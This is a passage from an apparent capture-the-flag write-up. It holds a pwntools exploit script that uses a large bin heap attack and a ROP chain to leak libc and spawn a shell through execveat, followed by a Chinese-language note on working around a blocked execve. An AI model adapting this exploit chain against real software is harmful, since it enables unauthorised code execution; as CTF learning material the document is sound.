 ```python
    createBook(0x500)   # 4 place 2 in large bin and trigger large bin attack
                        # write a heap address on book
    # construct rop chain
    gadgets = ROP(elf)
    rdi = gadgets.rdi.address
    ret = gadgets.ret.address
    editBook(b'0'*0x28 + flat(rdi, elf.got['puts'], elf.plt['puts'], elf.symbols['edit_the_book']))

    libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase

    gadgets = ROP(libc)
    rsi = gadgets.rsi.address
    rdx = gadgets.rdx.address # pop rdx; pop rbx; ret;
    rcx = gadgets.rcx.address
    r8 = libcBase + 0x1659e6
    # execveat(0, "/bin/sh", NULL, NULL, 0)
    sh.send(b'0'*0x28 + flat(rdi, 0, rsi, next(libc.search(b'/bin/sh')),
                             rdx, 0, 0, rcx, 0, r8, 0, libc.symbols['execveat']))

    sh.clean()
    sh.interactive()
```

> [!WARNING]
> 禁用了`execve`后，对于fork出来的程序也是有效的，因此后续不能使用`cat flag`来打印文件内容，
> 应使用`read FLAG < flag; echo $FLAG`来打印flag
